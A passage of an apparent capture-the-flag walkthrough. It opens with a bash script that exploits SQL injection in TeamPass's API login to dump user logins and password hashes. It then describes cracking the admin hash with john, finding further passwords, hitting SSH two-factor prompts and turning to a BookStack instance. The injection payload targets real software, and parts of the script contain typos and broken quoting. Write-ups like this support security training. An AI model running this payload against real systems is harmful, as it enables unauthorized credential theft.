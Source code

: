 ```bash
	echo "API feature no enabled, not vulnerable"
	exit 1
fi

#Define a random bcrypt hash to act as lure
#htpasswd -bnBC 10 "" pwned | tr -d ':\n'
random_hash='randomhash'

exec_sql() {
	#SELECT * FROM invitados WHERE nombre = 'none'
	#UNION
	#SELECT this is admin info FROM users WHERE login='admin'
	inject="none' UNION SELECT id, '$random_hash', ($1), private_key, personal_folder, fonction_id, groupes_interdits, 'foo' FROM temapass_users WHERE login='admin'"
	data="{\"login\":\""$inject\"",\"password\":\"newpass\",\"apikey\":\"foo\"}"
	token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url | jq -r '.token'")
}

#$Change $1 with the query replaced with public key
users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
	username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != ORDER BY login ASC LIMIT $i,1")
	password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
	echo "$username:$password"
done
```
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image_6.png' | relative_url }})
<br/><br/>
# 2. User flag
<br/><br/>
Once we have admin user, we can crack it with john
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image_7.png' | relative_url }})
<br/><br/>
In team pass dashboard there are more bob’s passwords 
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image_8.png' | relative_url }})
<br/><br/>
This seems interesting, let’s try to login in ssh
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image_9.png' | relative_url }})
<br/><br/>
It has 2FA and we need a verification code 
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image_10.png' | relative_url }})
<br/><br/>
Stand a little and check port 80 where is the bookstack framework and we have access thanks to the previous findings, we can create books on it
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image_11.png' | relative_url }})
<br/><br/>